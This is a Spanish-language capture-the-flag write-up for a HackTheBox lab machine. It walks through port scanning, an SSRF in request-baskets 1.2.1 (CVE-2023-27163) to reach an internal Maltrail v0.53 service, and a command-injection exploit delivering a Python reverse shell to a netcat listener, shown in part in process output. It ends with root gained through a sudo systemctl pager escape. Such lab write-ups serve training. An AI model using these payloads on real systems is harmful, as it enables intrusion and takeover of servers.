







# Descripción
* **Nivel:** Fácil.
* **Temas a tratar:** Enumeracion,  SSRF, Command Injection. 
* **OS:** Linux.
* **Plataforma:** HackTheBox.
* **Fecha de retiro:** 11/02/2023.
* **IP victima:** 10.10.11.224
* **IP atacante:** 10.10.14.36
___
## Enumeración
Empezamos enumerando los puertos bajo el protocolo TCP abiertos con nmap.
```bash
sudo nmap -p- -sS --min-rate 5000 -vv 10.10.11.224 -oN ports 
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.93 seconds
           Raw packets sent: 67814 (2.984MB) | Rcvd: 67790 (2.712MB)
```
En este caso, encontramos puertos con el estado de _filtrado (filtered)_. Esto puede deberse a que solo estén disponibles dentro de la red interna de la máquina, ya que pueden estar protegidos por algún _Firewall_ u otro sistema de protección de acceso a la red. Descartamos estos puertos de momento y continuamos con un escaneo hacia los que están en estado de _abierto (open)_.
- `22: Referente a una conexión ssh`
- `55555: De momento no me suena este puerto, así que puede que sea un servicio con el puerto cambiado`

``` bash
sudo nmap -p22,55555 -sS -sV -oN scan 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (0.53s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
55555/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=5/13%Time=6642EB23%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Tue,\x2014\x20May\
SF:x202024\x2004:40:04\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\
...
```
El puerto 22 no tiene una versión vulnerable para realizar enumeración de usuarios, así que solo nos queda el puerto 5555 y los puertos filtrados. El resultado que nos devuelve Nmap no identifica qué servicio está corriendo, pero vemos que está recibiendo información por el protocolo HTTP, lo cual puede ser un indicio de un sitio web. Veamos qué nos muestra nuestro navegador:

Ahora tenemos el sitio existente, y en la parte inferior tenemos información sobre el sitio: _request-baskets_ y la versión _1.2.1_. Busquemos si existe alguna vulnerabilidad sobre esta versión. Para esto suelo utilizar el buscador de Google o [Sploitus](https://sploitus.com/).
En este caso encontramos un CVE asociado con esta versión, _CVE-2023-27163_. Verificando la vulnerabilidad en la plataforma del [NIST](https://nvd.nist.gov/vuln/detail/CVE-2023-27163), vemos que este CVE está asociado a un Server-Side Request Forgery (SSRF).
## Server-Side Request Forgery
Esta es una vulnerabilidad que permite a un atacante poder realizar solicitudes HTTP a través de una funcionalidad vulnerable del lado del servidor.
 Esto puede derivar a un acceso no autorizado a recursos en red interna que pueden ser vulnerables.
	*Un fallo típico de empresas es tener algún servicio vulnerable corriendo en su red interna, bajo la premisa de que como este servicio no se encuentra expuesto a internet, no hay necesidad de parchearlo.*


*Esta vulnerabilidad puede escalarse a muchas más implicaciones y peligros. Para esto, recomiendo leer el siguiente artículo del [OWASP](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery) sobre esta vulnerabilidad.*
## Prueba de concepto
Anteriormente, en la etapa de enumeración, encontramos 2 puertos filtrados. El más importante a simple vista es el del puerto 80 (puerto comúnmente utilizado para sitios web). Ya tenemos a dónde queremos apuntar, ahora veamos cómo se aplica este SSRF.
En el artículo del [NIST](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) mencionado anteriormente, encontramos un enlace externo sobre cómo realizar esta explotación: [request-baskets SSRF details](https://notes.sjtu.edu.cn/s/MUUhEymt7). El redactor del artículo utiliza la herramienta _Postman_, pero para peticiones web prefiero utilizar la herramienta [Insomnia](https://insomnia.rest/) (esto es por simple cuestión de gustos, incluso pueden utilizar Burpsuite para esto).
El articulo nos indica que se realiza una petición *HTTP* de tipo *POST* hacia la dirección */api/baskets/{name}* del sitio, enviándole en el cuerpo de la petición la siguiente información en formato *JSON*:
```JavaScript
{
  "forward_url": "http://127.0.0.1:80/test",
  "proxy_response": false,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```
Para recibir el sitio interno en el puerto *80* solamente retiramos solamente el texto */test* ya que no conocemos si existe alguna dirección dentro del sitio con ese nombre.
	*Si no funciona, cambiamos el parametro "proxy_response" a true*.
Al final tenemos así nuestra petición lista para enviar.

En el articulo de este CVE menciona que ahora hay que entrar a la URL que se mando en este caso */poc* (URL completa http://10.10.11.224:55555/poc).
Entrando a la URL en la parte inferior nos encontramos el nombre de la aplicación y la versión:
* Powered by Maltrail (v0.53)
Busquemos si existe alguna vulnerabilidad para esta versión de Maltrail.
Busquemos si existe alguna vulnerabilidad para esta versión de Maltrail. Encontramos un exploit en Github que proporciona un RCE (Remote Command Execution). Analizando el código escrito en Python, vemos que inyecta una reverse shell en base64 a través de una petición HTTP. Esta reverse shell se aprovecha de la existencia de Python en el sistema para permitirnos realizar la conexión con la máquina víctima (voy a optar por utilizar la herramienta RevShells).

Adjuntamos la reverse shell al SSRF y al RCE encontrado en Github, nos ponemos en escucha con NetCat en el puerto 9001 (en mi caso el seleccionado):


Ahora ajustemos la shell a una interactiva para poder trabajar de manera mas cómoda:
```bash
puma@sau:/opt/maltrail$ ^Z
zsh: suspended  sudo nc -lvnp 9001
> tty raw -echo; fg
[1]  + continued  sudo nc -lvnp 9001

puma@sau:/opt/maltrail$ 
puma@sau:/opt/maltrail$ export TERM=xterm
puma@sau:/opt/maltrail$ cd 
puma@sau:~$ ls
user.txt
```
## Escalada de privilegios
Ya que estamos como usuario, veamos cómo escalar los privilegios. En mi caso, tengo la costumbre de ver si tenemos algún permiso de ejecución como sudo:
```bash
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
Muy bien tenemos *systemctl* veamos en [GTFOBins](https://gtfobins.github.io/) si existe algo de sudo:

Listo existe pero en nuestro caso solo podemos utilizarlo para ver el estado del servicio *trail.service* probemos si funciona igual con el comando:
```bash
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sun 2024-05-26 23:49:01 UTC; 44min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 895 (python3)
      Tasks: 10 (limit: 4662)
     Memory: 24.6M
     CGroup: /system.slice/trail.service
             ├─ 895 /usr/bin/python3 server.py
             ├─1160 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─1166 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─1170 sh
             ├─1171 python3 -c import socket,subprocess,os;s=socket.socket(sock>
             ├─1172 /bin/bash
             ├─1190 sudo /usr/bin/systemctl status trail.service
             ├─1191 /usr/bin/systemctl status trail.service
             └─1192 pager

May 26 23:49:01 sau systemd[1]: Started Maltrail. Server of malicious traffic d>
May 27 00:29:59 sau sudo[1186]:     puma : TTY=pts/0 ; PWD=/home/puma ; USER=ro>
May 27 00:33:02 sau sudo[1187]: pam_unix(sudo:auth): authentication failure; lo>
May 27 00:33:09 sau sudo[1187]:     puma : command not allowed ; TTY=pts/0 ; PW>
!sh
# whoami
root
```
___
### Happy Hacking!
